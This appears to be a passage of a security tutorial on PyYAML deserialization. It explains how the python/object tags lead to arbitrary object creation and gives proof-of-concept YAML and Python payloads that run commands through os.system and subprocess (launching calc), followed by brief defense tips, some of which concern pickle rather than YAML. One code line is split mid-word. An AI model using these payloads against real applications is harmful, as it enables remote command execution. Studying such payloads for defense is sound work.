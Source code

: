 <div align=center><img src="./images/8.png"></div>

# PyYAML Deserialization
## Vulnerability Points
Find the `yaml/constructor.py` file and view the source code of the three special `Python` tags in the file code:
 - `!!python/object` tag.
 - `!!python/object/new` tag.
 - `!!python/object/apply` tag.

<div align=center><img src="./images/9.png"></div>

All of these three `Python` tags call the `make_python_instance` function, follow up and view the function. You can see that the function will dynamically create a new `Python` class object according to the parameters or create an object by referring to the `module` class, so that any command can be executed.



<div align=center><img src="./images/10.png"></div>

## Payload(PyYaml < 5.1)

```yaml
!!python/object/apply:os.system ["calc.exe"]
!!python/object/new:os.system ["calc.exe"]
!!python/object/new:subprocess.check_output [["calc.exe"]]
!!python/object/apply:subprocess.check_output [["calc.exe"]]
```

## Pyload(PyYaml >= 5.1)

```python
from yaml import *
data = b"""!!python/object/apply:subprocess.Popen
 - calc"""
deserialized_data = l
oad(data, Loader=Loader)
print(deserialized_data)
```

```python
from yaml import *
data = b"""!!python/object/apply:subprocess.Popen
- calc"""
deserialized_data = unsafe_load(data)
print(deserialized_data)
```

# Defense Method
 - Use the magic method of using more advanced interfaces `__getnewargs()`, `__getstate__()`, `__setstate__()`, etc. instead of `__reduce__()`.
 - Strict filtering is performed before deserialization operation. If you use the `pickle` library, you can use a decorator to implement it.

# refer to
 - [A post will help you understand the Python deserialization vulnerability](https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BPython%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/)
